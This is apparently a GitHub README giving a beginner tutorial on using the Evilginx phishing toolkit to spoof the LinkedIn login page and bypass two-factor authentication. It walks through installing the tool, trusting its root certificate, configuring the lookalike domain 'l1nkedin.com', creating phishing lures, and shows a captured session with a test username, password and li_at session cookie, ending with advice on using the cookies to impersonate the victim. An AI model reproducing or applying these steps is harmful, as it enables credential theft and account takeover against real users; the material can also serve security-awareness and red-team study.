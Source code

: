 # 2FA BYPASS WITH EVILGINX

[*Evilginx*](https://help.evilginx.com/) is a sophisticated phishing toolkit designed for man-in-the-middle attacks, enabling attackers to bypass two-factor authentication (2FA) and capture sensitive session tokens.  
By acting as a reverse proxy, Evilginx tricks victims into entering their credentials and 2FA codes on a spoofed login page that mimics legitimate sites: the tool intercepts authentication tokens in real time, allowing attackers to gain unauthorized access to user accounts without needing the actual passwords.  
This makes Evilginx particularly dangerous for organizations and individuals relying on 2FA for security.  

This repository contains a beginner tutorial on evilginx in which we will emulate the linkedin login page in order to steal user credentials.    

## Instructions

Download evilginx via the [*apt package*](https://www.kali.org/tools/evilginx2/) (we can also clone the [*official repository*](https://github.com/kgretzky/evilginx2) or donwload a specific [*release*](https://github.com/kgretzky/evilginx2/releases)):  
```sh
sudo apt update && sudo apt install -y evilginx2
```  

  
Start evilginx in developer mode, this will allow us to test everything locally without the need to buy and configure a custom domain:  
```sh
sudo evilginx2 -developer -p ./phishlets 127.0.0.1:33500
```  

![cli](./images/evilginx_cli.png)  

In order to be able to locally open our phishing links, in a web browser, using a TLS connection signed by a self-signed TLS certificate  
we will need to add Evilginx Root CA certificate into our trusted root certificates storage.  

The generated root CA certificate can be found at `/root/.evilginx/crt/ca.crt`.  
Make sure to run Evilginx at least once to generate the certificate file.  

```sh
sudo cp /root/.evilginx/crt/ca.crt /usr/local/share/ca-certificates/evilginx.crt \
&& sudo update-ca-certificates
```  

Now we can configure our phishing domain, we will use `l1nkedin.com`:

```sh
config domain l1nkedin.com
```  

Since we are testing evilginx locally, we will bound it to our localhost ip:  
```sh
config ipv4 127.0.0.1
```

Now we will setup a phishlet, a small configuration file (yaml) used to configure Evilginx for targeting specific website.  
For our purpose we will use the one from [*simplerhacking*](https://github.com/simplerhacking), already present in the current directory.  
Set up a hostname for our Linkedin phishing URL:  
we can pick whatever hostname we want with as many subdomains as we want, under condition that it ends with the top level domain we set up with the `config domain` command:  

```sh
phishlets hostname linkedin users.l1nkedin.com
```  
Now enable that phishlet:  
```sh
phishlets enable linkedin
```  

Since we're running Evilginx in developer mode, in our local deployment, we will have to manually modify our `/etc/hosts` or file to be able to map the phishing hostnames to our local IP address.  

To make it easier, Evilginx provides a way to generate a list of hosts automatically, which we can copy-paste into our `/etc/hosts` file:  

```sh
phishlets get-hosts linkedin
```  

With the phishlet up and running, we can now create a `lure` (a pre-generated phishing link), which will become a phishing link we send out to users in order to lure them to our phishing page.  


Create a lure for the linkedin phishlet:  

```sh
lures create linkedin
```  

Retrieve the list of our lure:  
```sh
lures
```  

Get the link for our linkedin lure:  
```sh
lures get-url 0
```  

example:  
```sh
https://www.users.l1nkedin.com/UoxZFYNO
```  

Open the link in firefox or other browsers (accept the warnig for self signed certificate):  
```sh
firefox https://www.users.l1nkedin.com/UoxZFYNO
```  

here is what our landing page will look like:  


![login](./images/linkedin_login.png)  
 


Now we can proceede to enter valid credentials and observe the evilginx console:  

![session](./images/captured.png)  


Evilginx Captured our user credentials and also all the required session tokens!  
Also notice from the browser how our malicious landing page seamlesly redirected our victim to the real linkedin website!  

At this point we have the user cookies, inspect them with the `sessions 1` command:  

```sh
id           : 1
phishlet     : linkedin
username     : test.user.10987@gmail.com
password     : NotAStrongPassw0rd!
tokens       : empty
landing url  : https://www.users.l1nkedin.com/UoxZFYNO
user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
remote ip    : 127.0.0.1
create time  : 2024-07-17 15:35
update time  : 2024-07-17 15:38

[ cookies ]
[{"path":"/","domain":"www.linkedin.com","expirationDate":1752759738,"value":"AQEDATfvyK4EoebVAAABkMDGoz4AAAGQ5NMnPk0AJ1LUgFJvlIK-oWTd9SLLGYdY-yMUfWdi2VxLgcA5ljoamb0JZU8u8-f-9ifSGNBmaJuq4D4knmBJ7fvASHtiELnAjgAwmiWfA2zWTrqQTt6Ap3TT","name":"li_at","httpOnly":true}]
```  

Now you can use those cookies with Burp or importing them in the browser in order to impersonate the victim!  


**NOTE**: I already deleted the above test user, do not waste time trying to access linkedin with that 😉  







